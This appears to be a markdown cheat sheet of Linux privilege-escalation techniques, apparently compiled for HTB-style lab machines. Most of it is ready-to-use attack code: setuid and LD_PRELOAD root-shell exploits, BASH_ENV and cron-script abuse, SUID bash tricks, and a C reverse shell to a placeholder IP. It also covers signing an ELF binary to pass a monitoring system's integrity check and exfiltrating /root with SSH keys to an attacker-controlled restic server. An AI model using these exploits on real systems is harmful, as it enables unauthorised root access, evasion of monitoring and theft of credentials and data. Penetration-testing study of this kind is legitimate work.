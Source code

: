 ##  Privilege Escalation via Python

```python
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Spawns a root shell if the script is run with root privileges.

---

##  LD\_PRELOAD + sudo

`LD_PRELOAD` is an environment variable used by the dynamic linker to load a custom shared library before any others.  This allows overriding standard library functions — useful for debugging, but exploitable for privilege escalation if preserved by `sudo`.
### 🔹 Exploit example

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void run_me_first() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

**Compile:**

```bash
gcc -fPIC -shared -o exploit.so exploit.c
```

**Run:**

```bash
sudo LD_PRELOAD=./exploit.so /usr/bin/ping
```

---

## BASH_ENV + sudo

`BASH_ENV` is an environment variable read by **bash** before executing any non-interactive script.  
### 🔹 Exploit example

If `sudo -l` contains:

```bash
env_keep+="BASH_ENV"
```

then `sudo` will preserve this variable, allowing privilege escalation if you can run a bash script as root.

```bash
echo '/bin/bash -p' > /tmp/root.sh
chmod +x /tmp/root.sh
sudo BASH_ENV=/tmp/root.sh /usr/bin/systeminfo
```

Here, `/usr/bin/systeminfo` is a root-allowed bash script.  
Before executing it, bash will source `/tmp/root.sh`, spawning a root shell.

--- 
##  Crontab 

###  🔹Where to look:

- `/etc/crontab`
- `/etc/cron.*/*`
- Systemd timers (`systemctl list-timers`)

###  🔹Exploitation Steps:

1. **Identify a writable target**:

   - Check if you can edit a script or file executed by the cronjob.

2. **Inject malicious code**:

   - For example, add a reverse shell or privilege escalation payload to the script:
     ```bash
     #!/bin/bash
     chmod u+s /bin/bash
     ```
   - This will set the SUID bit on `/bin/bash`, allowing root shell access with:
     ```bash
     /bin/bash -p
     ```

3. **Wait for the cronjob to run** — Check the timing configuration of the cronjob. Crontab lines follow this format:

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 7) (Sunday is 0 or 7)
# │ │ │ │ │
# * * * * *  user-name  command-to-be-executed
```
---

##  Crontab → SUID bash

```python
os.system('chmod u+s /bin/bash')
```

Then:

```bash
/bin/bash -p
```

> Runs bash with root privileges if the SUID bit is set.

---

##  SUID via C binary

```c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

> Compiles a binary that spawns a root shell when executed by a script with SUID. Look [[UID]] for more details

---

## Reverse Shell via C binary 

```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1", NULL);
    return 0;
}
```

> Compiles a binary that spawns a  reverse shell on port 1337 when executed by a root srcipt like cronjob (RUID = 0)

---
## ELF Signing Tool

To bypass signature verification by the monitoring system, we signed the ELF binary using:

[linux-elf-binary-signer GitHub repository](https://github.com/NUAA-WatchDog/linux-elf-binary-signer)

Sign the binary with:
```bash
./elf-sign sha256 key.pem key.pem monitor
```

This generates a signed ELF executable that passes integrity checks during the scan.

---
## NBackrest (Restic abuse)

Abuse NBackrest’s ability to run `restic` as **root** to back up `/root` to an attacker-controlled REST backend, then restore locally and grab `root.txt` / SSH keys.

**Rest-server GitHub repository**: [https://github.com/restic/rest-server/](https://github.com/restic/rest-server/)

### Steps to Retrieve `/root`

#### 1) Start a REST backend on the attacker host
```bash
# On attacker
# <ATTACKER_IP> is your HTB/VPN IP; choose a port (e.g., 12345)
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```
- Stores encrypted repo data under `/tmp/restic-data/<repo_name>`.

#### 2) Configure NBackrest Repository on the target
In **Add/Edit Restic Repository**:
- **Repo Name:** anything (e.g., `repo2`)
- **Repository URI:**  
  ```
  rest:http://<ATTACKER_IP>:12345/myrepo2
  ```
- **Password:** choose a passphrase (e.g., `123456`) — you’ll need this to decrypt later.

#### 3) Initialize the remote repository
In NBackrest **Run Command** (for this repo):
```
-r rest:http://<ATTACKER_IP>:12345/myrepo2 init
```

#### 4) Backup `/root` as **root** to your REST repo
Still in **Run Command**:
```
-r rest:http://<ATTACKER_IP>:12345/myrepo2 backup /root
```

You should see:
```
snapshot <ID> saved
Files: XX new
Dirs:  XX new
Added to the repository: X.XXX MiB
```

#### 5) Restore the loot locally (attacker)
```bash
# List snapshots
restic -r /tmp/restic-data/myrepo2 snapshots
# enter the same password you set in NBackrest (e.g., 123456)

# Restore
restic -r /tmp/restic-data/myrepo2 restore <SNAP_ID> --target ./restore

# Get root.txt
cat ./restore/root/root.txt
```

---

